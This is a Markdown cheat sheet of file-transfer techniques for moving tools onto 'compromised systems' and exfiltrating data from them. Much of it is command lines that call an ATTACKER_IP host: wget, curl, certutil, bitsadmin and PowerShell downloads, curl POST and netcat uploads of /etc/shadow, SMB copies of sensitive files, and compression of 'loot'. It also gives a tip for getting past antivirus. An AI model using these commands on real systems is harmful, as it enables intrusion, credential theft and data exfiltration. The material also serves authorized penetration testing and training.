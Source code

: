 # File Transfer Methods - All Platforms

**Purpose:** Moving files between your Kali machine and compromised systems.

---

## Serving Files from Kali

### HTTP Server (Most Common)

```bash
# Simple HTTP server
python3 -m http.server 80

# Specific directory
cd /opt/tools
python3 -m http.server 8000

# With upload capability (using uploadserver)
pip3 install uploadserver
python3 -m uploadserver 80
```

### SMB Server

```bash
# Impacket SMB server
impacket-smbserver share . -smb2support

# With authentication
impacket-smbserver share . -smb2support -user user -password pass
```

### FTP Server

```bash
# Quick Python FTP
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

---

## Download TO Linux Target

### wget
```bash
wget http://ATTACKER_IP/file
wget http://ATTACKER_IP/file -O /tmp/file
```

### curl
```bash
curl http://ATTACKER_IP/file -o file
curl http://ATTACKER_IP/file --output /tmp/file
```

### If No wget/curl

**Python:**
```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://ATTACKER_IP/file", "file")'
```

**Netcat:**
```bash
# On Kali:
nc -lvnp 4444 < file

# On target:
nc ATTACKER_IP 4444 > file
```

---

## Download TO Windows Target

### certutil (Built-in)

```powershell
certutil -urlcache -f http://ATTACKER_IP/file.exe file.exe
```

### PowerShell

```powershell
# Invoke-WebRequest
Invoke-WebRequest -Uri "http://ATTACKER_IP/file.exe" -OutFile "file.exe"

# DownloadFile
(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_IP/file.exe", "file.exe")

# Short version
iwr -uri http://ATTACKER_IP/file.exe -outfile file.exe
```

### bitsadmin

```powershell
bitsadmin /transfer job http://ATTACKER_IP/file.exe C:\Temp\file.exe
```

### SMB

```powershell
# If you have SMB server running on Kali
copy \\ATTACKER_IP\share\file.exe C:\Temp\file.exe
```

---

## Upload FROM Linux Target

### HTTP POST

```bash
# On Kali (with uploadserver)
python3 -m uploadserver 80

# On target
curl -X POST -F "file=@/etc/shadow" http://ATTACKER_IP/upload
```

### Netcat

```bash
# On Kali:
nc -lvnp 4444 > received_file

# On target:
nc ATTACKER_IP 4444 < /etc/shadow
```

### Base64 (Small Files)

```bash
# On target: Encode
cat /etc/shadow | base64

# Copy output and on Kali: Decode
echo "BASE64_STRING" | base64 -d > shadow
```

---

## Upload FROM Windows Target

### SMB (Easiest)

```bash
# On Kali:
impacket-smbserver share . -smb2support
```

```powershell
# On Windows:
copy C:\sensitive\file.txt \\ATTACKER_IP\share\file.txt
```

### PowerShell Upload

```powershell
# Upload to web server (if you have one accepting uploads)
Invoke-WebRequest -Uri "http://ATTACKER_IP:8000/upload" -Method POST -InFile "C:\data.txt"
```

### Base64 (Small Files)

```powershell
# Encode
certutil -encode file.txt file.b64
type file.b64

# Copy output to Kali and decode:
# echo "BASE64" | base64 -d > file
```

---

## Large File Transfers

### Compression First

**Linux:**
```bash
# Compress before transfer
tar -czf loot.tar.gz /var/www/html/
# Then transfer loot.tar.gz
```

**Windows:**
```powershell
# Zip files
Compress-Archive -Path C:\sensitive\* -DestinationPath C:\Temp\loot.zip
# Then transfer loot.zip
```

### Split Large Files

```bash
# Split file into chunks
split -b 10M largefile.zip part_

# Transfer each part
# Then reassemble:
cat part_* > largefile.zip
```

---

## Troubleshooting

**"wget/curl not available on target"**
→ Try Python, Netcat, or PowerShell methods

**"certutil blocked by AV"**
→ Try PowerShell Invoke-WebRequest

**"Can't establish SMB connection"**
→ Check firewall, try HTTP instead

**"Transfer times out"**
→ File too large, compress first or split into chunks

---

**File transfer is essential for getting tools onto targets and exfiltrating data. Know multiple methods for each OS!** 📁
